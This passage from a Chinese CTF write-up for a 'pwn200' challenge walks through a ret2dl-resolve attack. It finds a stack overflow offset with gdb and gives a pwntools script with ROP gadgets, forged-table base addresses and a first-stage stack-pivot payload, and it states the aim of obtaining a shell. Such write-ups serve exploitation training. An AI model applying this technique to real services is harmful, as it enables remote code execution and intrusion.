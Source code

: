 
#### pwn200
获得了 re2dl-resolve 所需的所有知识，下面我们来分析题目。

首先触发栈溢出漏洞，偏移为 112：
```
gdb-peda$ pattern_offset 0x41384141
1094205761 found at offset: 112
```

根据理论知识及对二进制文件的分析，我们需要一个 read 函数用于读入后续的 payload 和伪造的各种表，一个 write 函数用于验证每一步的正确性，最后将 write 换成 system，就能得到 shell 了。
```python
from pwn import *

# context.log_level = 'debug'

elf = ELF('./a.out')
io = remote('127.0.0.1', 10001)
io.recv()

pppr_addr      = 0x08048699     # pop esi ; pop edi ; pop ebp ; ret
pop_ebp_addr   = 0x0804869b     # pop ebp ; ret
leave_ret_addr = 0x080484b6     # leave ; ret

write_plt = elf.plt['write']
write_got = elf.got['write']
read_plt  = elf.plt['read']

plt_0    = elf.get_section_by_name('.plt').header.sh_addr        # 0x80483e0
rel_plt  = elf.get_section_by_name('.rel.plt').header.sh_addr    # 0x8048390
dynsym   = elf.get_section_by_name('.dynsym').header.sh_addr     # 0x80481cc
dynstr   = elf.get_section_by_name('.dynstr').header.sh_addr     # 0x804828c
bss_addr = elf.get_section_by_name('.bss').header.sh_addr        # 0x804a028

base_addr = bss_addr + 0x600    # 0x804a628
```
分别获取伪造各种表所需要的段地址，将 bss 段的地址加上 0x600 作为伪造数据的基地址，这里可能需要根据实际情况稍加修改。gadget pppr 用于平衡栈， pop ebp 和 leave ret 配合，以达到将 esp 指向 base_addr 的目的（在章节3.3.4中有讲到）。

第一部分的 payload 如下所示，首先从标准输入读取 100 字节到 base_addr，将 esp 指向它，并跳转过去，执行 base\_addr 处的 payload：
```python
payload_1  = "A" * 112
payload_1 += p32(read_plt)
payload_1 += p32(pppr_addr)
payload_1 += p32(0)
payload_1 += p32(base_addr)
payload_1 += p32(100)
payload_1 += p32(pop_ebp_addr)
payload_1 += p32(base_addr)
payload_1 += p32(leave_ret_addr)

io.send(payload_1)
```
